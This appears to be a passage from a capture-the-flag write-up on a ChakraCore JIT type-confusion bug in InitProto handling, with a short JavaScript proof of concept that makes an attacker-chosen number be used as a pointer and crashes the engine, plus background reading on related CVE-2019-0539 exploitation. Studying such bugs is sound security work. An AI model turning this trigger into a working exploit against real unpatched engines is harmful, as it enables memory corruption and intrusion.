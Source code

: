 ```javascript

PoC for InitProto:

function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, 0x1234); // <-- This value is used as a pointer

    print(o.a);
}

main();
```

If you feed the PoC into the challenge binary you'll get a SegFault before the print function terminates when libChakraCore.so tries to access [rax] with rax = 0x100...1234 

(the 0x1 is used to differentiate numbers from pointers)

lokihardt explains that if we set `proto` as the prototype of `tmp`, `proto`'s layout in memory changes. 

The jit compiler didn't take this side effect into account at the time.

The challenge is basically a revert of the fixes that Microsoft applied.

# Useful Reading

So to understand this issue a little bit better I read some general ChakraCore exploitation material such as 

- [Bruno Keith Presentation on the subject](https://github.com/bkth/Attacking-Edge-Through-the-JavaScript-Compiler)

And also some specific analysis of this bug and two very similar bugs also discovered by lokihardt (basically corresponding to the other 3 cases that were not commented out)

It happens that for CVE-2019-0539 there are two nice blog posts from Perception Point

1. [CVE-2019-0539 root cause analysis](https://perception-point.io/resources/research/cve-2019-0539-root-cause-analysis/)
2. [CVE-2019-0539 exploitation](https://perception-point.io/resources/research/cve-2019-0539-exploitation/)
